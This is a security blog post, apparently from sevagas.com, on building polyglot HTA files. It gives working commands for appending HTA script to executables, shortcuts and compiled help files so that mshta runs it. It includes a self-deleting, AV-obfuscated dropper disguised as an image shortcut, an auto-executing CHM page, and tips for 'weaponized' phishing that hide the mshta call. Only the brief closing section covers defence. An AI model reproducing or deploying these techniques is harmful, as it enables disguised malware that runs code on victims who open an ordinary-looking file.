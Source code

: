 1. https://blog.sevagas.com/?Hacking-around-HTA-files#:~:text=III.%20Polyglot%20HTA%20file

Polyglot HTA file
It is easy to build files which are both valid when opened with MSHTA and other applications, and unlike polyglot wizardry you see from Ange Albertini in PoC, these files are really easy to build!

1) Polyglot HTA/PE file
We are going to test our assumption on an executable file (.exe extension)
```
copy /b %windir%\system32\calc.exe+test.hta calc2.exe
 calc2.exe  -> Runs good old calc
 mshta %cd%\calc2.exe  -> Execute HTA script!
```
So you can hide and run Visual Basic script in an executable binary!

Exercice: Create an executable which calls itself with MSHTA to run the appended script.
Exercice (advanced): Patch an existing executable with shellcode and HTA so that execution will run mshta.exe to execute the HTA script.
2) Polyglot HTA/LNK file
What is a MS windows shortcut (.lnk extension)?

Well basically Its a binary file which executes a command when you double click on it.

For now lets focus on the part "its a binary". As we saw previously, mshta.exe will find and execute HTA scripts inside a binary.

Lets check that LNK file can be turned into polyglot HTA script.
This is how it’s done:

First, create a shortcut (to a readme.txt file in the example)
Next append HTA to the LNK file
```
copy /b readme.txt.lnk+test.hta readme2.txt.lnk
```
If you double click on shortcut, it will resolve and open the txt file.
But if you use MSHTA:
```
mshta %cd%\readme.txt.lnk -> Executes HTA script!
```

3) Other HTA polyglots
I hope you see where we are going ^^, but first, an easy polyglot exercise for the reader!

Exercise: Make a shortcut to an image that is also an HTA script and a zip file To prove it you must show that:
You can extract the shortcut file with unzip/7zip
You can run the HTA part with mshta.exe
You open the image if your double-click on the shortcut
It’s really easy!

HTA without .hta extension
1) What to do with malicious LNK file?
There is a history of LNK file used by APT and malware as an alternative to malicious Office documents. This is because of the second part of windows shortcuts short definition:
Its a binary file which executes a command when you double click on it.

This article on blog.trendmicro describes various attacks relying on malicious LNK files.
Some of the attack scenarios done by APT:
```
LNK -> CMD -> Powershell -> DROP RAT
LNK -> remote SCT -> DROP RAT
DOCx -> LNK -> remote HTA -> Powershell -> DROP RAT
```
I think these APT guys do not have a lot of imagination. Instead of calling an HTA or SCT file over the Internet, why not just turn the LNK itself into an HTA application?
In fact, you can modify the LNK target in a way it will use MSHTA on itself and thus, execute the script.
That basically turns an LNK file into a self executable HTA file with a non .hta extension.

Before that, a simple polyglot exercise which does not involve HTA:

Exercise: Create a file which is both a ZIP file and LNK file (with .lnk extension). The goal is to extract the zip archive when you double click on the shortcut (without any HTA code).
IV.2) The magical picture trick!
If we combine everything it is possible to have phishing, cmd execution, HTA script, and dropped payload all in one file and without any access to the Internet!

Here is how it works:
Lets demonstrate that with a Magic trick!
Initial condition:

You have one single shortcut in a folder,
You have no internet access
The shortcut is the only file on the folder
No knowledge of anything else on the computer except it’s a windows OS.
The play:

Double click on the shortcut ==> A picture will be displayed!
When you close the picture window, the shortcut is gone and replaced by the picture file!!!
OK how to make this proof of concept: .

0) Get a picture, lets call it magic.png

1) Generate HTA dropper with macro_pack
```
echo "magic.jpg" | macro_pack.exe -t EMBED_EXE -e magic.jpg -o -G magic_dropper.hta
```
The EMBED_EXE template combined with -e option will embed the given file inside the HTA code.
At execution, the HTA code will drop the file, and execute it (which for a jpg file results in it being opened in the default image viewer).

Note: -o option is for obfuscation to prevent some annoying AV yelling.

2) Add self destruct routine
Edit magic_dropper.hta, go to the end of the file and add the next code between calls to "autoopen" and "close"
```
Set objFSO = CreateObject( "Scripting.FileSystemObject" )
Set WshShell = CreateObject("WScript.Shell") 
objFSO.DeleteFile window.document.location.pathname
```
Now the HTA file will delete itself after running.

2) Create magic.jpg.lnk LNK file
Create a shortcut (manually if you want) and call it magic.jpg in explorer (so its real name is magic.jpg.lnk)

3) Configure LNK file

Right click on LNK to modify its properties.
As a target we could use:
```
%windir%\System32\mshta.exe <fullpath>\magic.jpg.lnk
```
But it’s less versatile and we do not know the file path where the shortcut will be executed for your demo.

Lets rather use cmd:
```
%windir%\system32\cmd.exe /c start "" "mshta" "%CD%\magic.jpg.lnk"
```
Next, change the LNK icon to something related to an image (find one or just use an icon in %windir%\system32\shell32.dll).

4) Append HTA to link for polyglot magic
```
copy /b magic.jpg.lnk+magic_dropper.hta magic.jpg.lnk
```
Your magic demo is ready, put the LNK anywhere on another PC and double click on the symlink :)

If you want to a more "weaponized" phishing application around HTA and LNK, you can "obfuscate" the shortcut command by using something like:
```
%windir%\system32\cmd.exe /c start "" "mshta" "%CD%\lol.magic.lnk"          E:\web_content\index_files\magic.png
```
This will hide the mshta part to someone who looks at the LNK parameters

3) The polyglot help file trick
So we saw we could run an HTA file disguised as a shortcut, now lets do the same with a help file (.chm)!
A help file can be build with Microsoft HTML Help Workshop
To build a CHM file, first you need an HTML help project (.hhp) file which is a text configuration file. See msdn for more information.
Here is an example of .hpp file:
```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=hello.chm
Default topic=hello.htm
Display compile progress=No
Language=0x410 Italian (Italy)


[FILES]
hello.htm

[INFOTYPES]
The file contains various configuration settings. hello.chm will be the name of the created help file. The HTML source file which will be used is "hello.htm"
```

Here is the content of the hello.htm file:
```
<html>
<title> Hello World! </title>
<head>
</head>
<body>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd,/c mshta %CD%\hello.chm">
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>

<h2 align=center> CHM Example </h2>
<p><h3 align=center> This is a malicious CHM file </h3></p>
</body>
</html
```
This file contains a shortcut which will call the command cmd /c mshta %CD%\hello.chm. This shortcut is automatically triggered when the file is opened. This means the help file will run MSHTA on itself when it is opened :)

Next generate the CHM file. You can do that in "HTML Help Workshop" (File->Compile).

To finalize the attack, lets append an HTA file to our generate help file:
```
copy /b hello.chm+hello.hta hello.chm
```
Now double click on your help file to check it worked!

4) Other self calling HTA
All binary file format which can be used to start a command line can be turned into a vaild autonomous HTA script.

Exercise: Make a MS Excel file with DDE field which calls MSHTA on itself to run an appended HTA script.
Final toughs
How to avoid malicious usage of polyglot HTA?
This "feature" could be prevented by requiring to have an HTA tag starting at the beginning of the file. One problem for example is this would break compatibility with all current HTA which relies on images.
It is important to notice that attacking via malicious CHM, LNK, or HTA files is nothing new. But these formats are generally overlooked in security awareness trainings.

Malicious LNK files in emails are generally flagged as SPAM/malware, but they can be very dangerous on a USB key, embedded in an Office document, or inside a ZIP file. CHM file is less likely to be considered malicious and same for other potential dangerous formats.

For blue teams: Usually, if you don’t rely on HTA files, it is recommended to either disable all mshta binaries using application whitelisting or to link the .hta extension to notepad. This article showed that disabling .hta extension does not work.



